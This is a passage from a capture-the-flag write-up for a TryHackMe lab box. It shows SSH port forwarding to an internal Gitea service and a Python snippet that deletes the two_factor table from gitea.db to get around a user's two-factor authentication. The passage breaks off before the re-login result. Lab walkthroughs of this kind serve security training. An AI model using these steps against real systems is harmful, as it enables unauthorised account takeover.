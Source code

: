 ![Untitled](Untitled%2011.png)

I need to enter this <span style="color:#00ff91">2FA passcode</span> and I don’t have this access so lets try some thing else Like try to add a user having admin privileges and then transfer that file to that only `gitea.db` location :

I registered a new user as `strongshiv8` →

![Untitled](Untitled%2012.png)

I can also port forward this with SSH command only like this 🔽

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/Year_of_the_dog]
└─$ ssh -L 3000:127.0.0.1:3000 dylan@10.10.142.78
dylan@10.10.142.78s password: 


	__   __                       __   _   _            ____    
	\ \ / /__  __ _ _ __    ___  / _| | |_| |__   ___  |  _ \  
	 \ V / _ \/ _` | '__|  / _ \| |_  | __| '_ \ / _ \ | | | |/ 
	  | |  __/ (_| | |    | (_) |  _| | |_| | | |  __/ | |_| | 
	  |_|\___|\__,_|_|     \___/|_|    \__|_| |_|\___| |____/ 

dylan@year-of-the-dog:~$ whoami
dylan
dylan@year-of-the-dog:~$ id
uid=1000(dylan) gid=1000(dylan) groups=1000(dylan)
dylan@year-of-the-dog:~$ 
```
{: .nolineno}
{: .nolineno}

Now as sqlite in not installed on this system so I transferred its database to attackers machine.

To disable 2 factor Authentication from <span style="color:#fd77f8">dylan</span> account there is 2 way :

1. You download the `gitea.db` file on attacker machine then delete the two_factor table from the database then re-upload the gitea file that will be good to go .
2. Another way is to use this python script or say command to do so 🔽

```python
import sqlite3
conn=sqlite3.connect('gitea.db')
conn.execute('delete from two_factor')
conn.commit()
conn.close()
```
{: .nolineno}
{: .nolineno}

![Untitled](Untitled%2013.png)

Lets re-login and see weather I am successfully accomplish my needs or not : 
